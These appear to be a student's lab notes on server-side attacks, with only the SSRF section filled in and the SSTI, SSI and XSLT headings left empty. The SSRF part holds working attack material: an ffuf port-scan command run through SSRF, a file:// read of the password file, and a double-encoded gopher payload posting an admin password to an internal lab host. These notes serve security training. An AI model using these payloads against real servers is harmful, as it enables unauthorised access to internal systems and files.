 # Introduction
All about server side attacks
### SSRF
[Server-Side Request Forgery (SSRF)](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery) is a vulnerability where an attacker can manipulate a web application into sending unauthorized requests from the server. This vulnerability often occurs when an application makes HTTP requests to other servers based on user input. Successful exploitation of SSRF can enable an attacker to access internal systems, bypass firewalls, and retrieve sensitive information.
### SSTI
Web applications can utilize templating engines and server-side templates to generate responses such as HTML content dynamically. This generation is often based on user input, enabling the web application to respond to user input dynamically. When an attacker can inject template code, a [Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection) vulnerability can occur. SSTI can lead to various security risks, including data leakage and even full server compromise via remote code execution.
### SSII
Similar to server-side templates, server-side includes (SSI) can be used to generate HTML responses dynamically. SSI directives instruct the webserver to include additional content dynamically. These directives are embedded into HTML files. For instance, SSI can be used to include content that is present in all HTML pages, such as headers or footers. When an attacker can inject commands into the SSI directives, [Server-Side Includes (SSI) Injection](https://owasp.org/www-community/attacks/Server-Side_Includes_\(SSI\)_Injection) can occur.
### XSLT
XSLT (Extensible Stylesheet Language Transformations) server-side injection is a vulnerability that arises when an attacker can manipulate XSLT transformations performed on the server. XSLT is a language used to transform XML documents into other formats, such as HTML, and is commonly employed in web applications to generate content dynamically.

---
# SSRF

## Intro to SSRF
This type of vulnerability occurs when a web application fetches additional resources from a remote location based on user-supplied data, such as a URL.

1. A web server should fetch remote resources based on user input
2. In such case we can supply our own server to make request to.
3. If the web application relies on a user-supplied URL scheme or protocol , an attacker might be able to cause even further undesired behavior by manipulating the URL scheme. For Eg:
	1. http:// and https://, can be used to bypass WAFs and access restricted endpoints or access endpoints in the internal network.
	2. file://, can be used to read local files in the local file system by chaining SSRF Vuln.
	3. gopher://  This protocol can send arbitrary bytes to the specified address. This can be used to exploit SSRF to send HTTP POST req with arbitrary payloads or communicate with other services such as SMTP servers or databases.
## Identifying SSRF
### Confirming SSRF
1. Capture the request which might make a request to some other system.
2. In the request if there is a data parameter which points to another system then try pointing it to your own hosted python server and try pointing it to the localhost( server machine) and fetch known files.
### Enumerating the System
We can use the SSRF vulnerability to conduct a port scan of the system to enumerate running services.
1. Check if a port is open or not via fuzzing
	`seq 0 65355 > ports.txt`
	`ffuf -w ./ports.txt -u URL -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "Field which is requesting through url" -fr "Failes to connect to"`
### Assessment
1. Load the date functionality to capture the request.
2. Fuzz the request for ports between 0-65355.
3. Send request dataserver=http://127.0.0.1:8000/ to retrieve the flag.
## Exploiting SSRF

### Accessing Restricted Endpoints
If you try to access the then found domain from the request you may not be able to do so on your browser.
But you can Fuzz using the SSRF vulnerability:
	1. Determine the response when accessing a non-existing page
	2. Filter out all the 404 errors and specify the extension of the possible directory based on web stack.

### Local File Inclusion (LFI)
We can also provide other URI schemes to provoke unexpected behaviors.
for example try `file:///ertc/passwd`

### The gopher Protocol
Using http:// URL scheme we cannot send POST request, assume there is an endpoint where we have to send password as a parameter, so we use gopher URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.

We need to send a POST request which should be double encoded:
```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```
single encoded:
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

the request with double encoding:
```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

we can also use gopher for other protocols, but its tedious hence we use [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us.
The following are supported:
- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache
need to have python 2
command:
	`python2.7 gopherus.py --exploit smtp`
	
## Blind SSRF
## Preventing SSRF
# SSTI
## Template Engines
## Intro to SSTI
## Identifying SSTI
## Exploiting SSTI - Jinja2
## Exploiting SSTI - Twig

## SSTI Tools of the trade & Preventing SSTI

# SSI Injection
## Intro to SSI Injection
## Exploiting SSI Injection
## Preventing SSI Injection

# XSLT Injection

## Intro to XSLT Injection
## Exploiting XSLT Injection

## Preventing XSLT Injection

# Skills Assessment
